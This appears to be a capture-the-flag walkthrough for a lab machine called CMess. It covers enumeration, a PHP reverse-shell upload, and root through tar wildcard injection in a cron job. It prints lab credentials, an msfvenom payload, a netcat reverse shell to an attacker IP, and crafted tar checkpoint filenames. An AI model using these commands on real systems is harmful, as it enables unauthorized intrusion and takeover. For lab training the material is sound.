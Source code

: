 # CMess

## Enumeration

to begin we are told to add the target IP to our host file 
command: ```nano /etc/hosts ```
``` <IP_address>    cmess.thm ```

now let's run an Nmap scan to discover what services are running on our target.

command: ``` nmap -sC -sV -P0 <TARGET_IP> ```

![Alt text](/posts/res/cmess1.png)

with our scan complete we can see that we have two open ports and services running on our target system.

- port 22 ***(SSH)***
- port 80 ***(HTTP)***

we navigate to the webpage. 
![Alt text](/posts/res/cmess2.png)

so from our scan since we ran we can see that it has enumerated a ***robots.txt*** file on the server with 3 disallowed entries. but after navigating manually through each of them, they provide us with a 403 forbidden message.

![Alt text](/posts/res/cmess3.png)

so from this, we can attempt to brute force for other hidden directories using Gobuster.

command: ``` gobuster dir  -u http://cmess.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt ```


![Alt text](/posts/res/cmess4.png)

from our directory brute force, we just discovered two interesting directories ***login*** and ***admin***. now we navigate to it, but it seems that we require an email address and password to authenticate. 

using our hint, we can attempt performing a sub-domain enumeration using wfuzz 

command:  ``` wfuzz -c -f sub-fighter -w /root/subdomains.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hl 125 ```


![Alt text](/posts/res/cmess5.png)

so we wait for the enumeration to complete then we can see that we have discovered a sub domain ***dev.cmess.thm***

command: ```grep 104 sub-fighter '''

![Alt text](/posts/res/cmess6.png)

now let's add that to our host file and navigate over to the site 

![Alt text](/posts/res/cmess7.png)

from the development log, we can see the login credentials we need to access the admin panel.

***email:*** ``` andre@cmess.thm ```
***password:*** ``` KPFTN_f2yxe% ```

now we Try to log in on cmess.thm/admin with these credentials

![Alt text](/posts/res/cmess8.png)

on the content tab -> File Manager, we can see an upload functionality which we can try to exploit. Try to upload reverse shell because the website is running on an Apache server PHP is very convenient for reverse shell.

![Alt text](/posts/res/cmess9.png)


so on Kali, we can find some web shells under the following directory 

``` /usr/share/webshells/php/ ```
to get this to our current working directory we can utilize the ***cp*** command to copy the files.

![Alt text](/posts/res/cmess10.png)

command: ```cp /usr/share/webshells/php/php-reverse-shell.php <CURRENT_WORKING_DIRECTORY> ```

remember to change the IP variable value with your IP and set the port number.

![Alt text](/posts/res/cmess11.png)

all uploads are stored in the assets folder. 

![Alt text](/posts/res/cmess12.png)

![Alt text](/posts/res/cmess13.png)

now to get a reverse connection once the script is executed we must set a netcat listener on our attack machine to listen and catch the request

command: ```nc -lnvp 4444 ```

![Alt text](/posts/res/cmess14.png)

to execute the reverse shell script navigate to the following path 

```http://cmess.thm/assets/<filename>```


![Alt text](/posts/res/cmess15.png)

we have successfully gotten a shell as user ***www-data***. we need to get access to escalate our privileges to the user andre so we can get the user flag.

now we can attempt to find a privilege escalation path using linpeas.sh

linpeas.sh is an automated tool for finding vulnerabilities in Linux systems.

to download Linpeas onto our machine we can use the following command 

``` wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh ```

![Alt text](/posts/res/cmess16.png)

now we would need to transfer this file to our target system by using a simple Python server from our local machine.

to do this we simply run the following command in the directory we downloaded and saved the linpeas files.

command: ``` python3 -m http.server <port_number>


![Alt text](/posts/res/cmess17.png)

Note: during a pentest, it is important to note that the file you transfer over to the target machine should always be stored in the ***/tmp*** folder to avoid the user finding them.


![Alt text](/posts/res/cmess19.png)

![Alt text](/posts/res/cmess18.png)

now we make the script executable and run it using the following command 

command: ```chmod +x linpeas.sh && ./linpeas.sh```


![Alt text](/posts/res/cmess20.png)

from linpeas enumeration, we found a bak file which is a backup file. we also found a cron job that can possibly be exploited to gain root access.



![Alt text](/posts/res/cmess21.png)

we can attempt to view the ***.password.bak*** 

command: ``` cat /opt/.password.bak```

![Alt text](/posts/res/cmess22.png)

It looks like the backup password of the andre but how we can use it? We know SSH is open on the 22 port try to sign in using this password.

command: ```ssh andre@cmess.thm ```

now we have successfully logged in as andre via the SSH credentials we found.

![Alt text](/posts/res/cmess23.png)

to get our ***user flag*** we can simply look at the file

![Alt text](/posts/res/cmess24.png)

we finally got our first flag.

## Gaining Root Access

Now we can access Andre’s folder let’s see what the cron job does that we found using Linpeas.

command: ```cat /etc/crontab ```


![Alt text](/posts/res/cmess25.png)

In this situation, a backup process occurs every 2 minutes, copying all files and folders from the /home/andre/backup directory to the /tmp directory in the form of andre_backup.tar.gz. It utilizes the tar command, and a noteworthy aspect is the use of the wildcard (*) character, signifying that anything within the /home/Andre/backup directory is included in the backup. This particular functionality may pose a security risk, as it opens the possibility of exploiting the system.

to gain a root shell we can create a payload using msfvenom

command: ``` msfvenom -p cmd/unix/reverse_netcat lhost=10.18.73.117 lport=4040 R ```

![Alt text](/posts/res/cmess26.png)

now we set up our listener 

command: ``` nc -lnvp <port> ```

Let's now echo our payload into “exploit.sh” and create the 2 directories needed for this exploit.

``` echo "mkfifo /tmp/txvij; nc 10.18.73.117 4040 0</tmp/txvij | /bin/sh >/tmp/txvij 2>&1; rm /tmp/txvij" > shell.sh ```

```echo "" > "--checkpoint-action=exec=sh shell.sh" && echo "" > --checkpoint=1 ```

![Alt text](/posts/res/cmess27.png)

Now we wait for the cron job to run and we should get tar interpret the commands and execute our shell.sh file.

and now we have our root shell and flag.

![Alt text](/posts/res/cmess28.png)




